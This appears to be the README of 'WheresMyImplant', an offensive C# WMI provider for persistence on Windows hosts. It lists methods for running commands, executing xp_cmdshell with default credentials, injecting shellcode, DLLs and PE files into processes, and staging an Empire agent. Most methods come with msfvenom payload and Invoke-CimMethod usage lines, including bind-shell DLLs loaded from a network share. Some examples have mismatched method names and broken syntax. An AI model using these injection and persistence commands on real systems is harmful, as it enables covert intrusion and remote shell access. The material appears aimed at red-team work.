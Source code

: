 ### WheresMyImplant: A C# WMI Provider for long term persistance

This WMI provider includes functions to execute commands, payloads, and Empire Agent to maintain a low profile on the host.

### Methods

* RunCMD
  * Parameter: Command, Parameters
  * Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{command="ipconfig"; parameter="/all"};
  
* RunPowerShell
  * Parameter: Command
  * Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{command="whoami"};
  
* RunXpCmdShell
  * Parameter: Server, Database, UserName, Password, Command
  * Invoke-CimMethod -Class Win32_Implant -Name RunXpCmdShell -Argument @{command="whoami"; database=""; server="sqlserver"}; username="sa"; password="password"}
  
* InjectShellCode
  * Parameter: ShellCodeString, ProcessId
  * msfvenom -p windows/x64/exec --format csharp CMD=calc.exe
  * Invoke-CimMethod -Class Win32_Implant -Name InjectShellCodeRemote -Argument @{shellCodeString=$payload; processId=432};
  
* InjectShellCodeWMFIFSB4
  * Parameter: WmiClass, FileName, ProcessId
  * msfvenom -p windows/x64/exec --format csharp CMD=calc.exe
  * Invoke-CimMethod -Class Win32_Implant -Name InjectShellCodeRemote -Argument @{WmiClass="WMIFS"; FileName="CalcShellCode"}; processId=432}
  
* InjectDll
  * Parameter: Library, ProcessId
  * msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll
  * Invoke-CimMethod -ClassName Win32_Implant -Name InjectDllRemote -Arguments @{library = "\\host\share\bind64.dll"; processId = 3372}
  
* InjectDllWMIFS
  * WmiClass, FileName, ProcessId
  * msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll
  * Invoke-CimMethod -ClassName Win32_Implant -Name InjectDllRemote -Arguments @{WmiClass = "WMIFS"; FileName="bind64.dll"; processId = 3372}
  
* InjectPeFile
  * Parameter: FileName, Parameters, ProcessId
  * msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll
  * Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeFromFileRemote -Arguments @{FileName="C:\bind64.exe"; parameters=""; ProcessId=5648;};
  
* InjectPeString
  * Parameter: PeString, Parameters, ProcessId
  
* InjectPeWMIFS
  * Parameter: WmiClass, FileName, Parameters, ProcessId
  
* Empire
  * Parameter: Server, StagingKey, Language

### Author, Contributors, and License

Author: Alexander Leary (@0xbadjuju), NetSPI - 2017

License: BSD 3-Clause

Required Dependencies: None
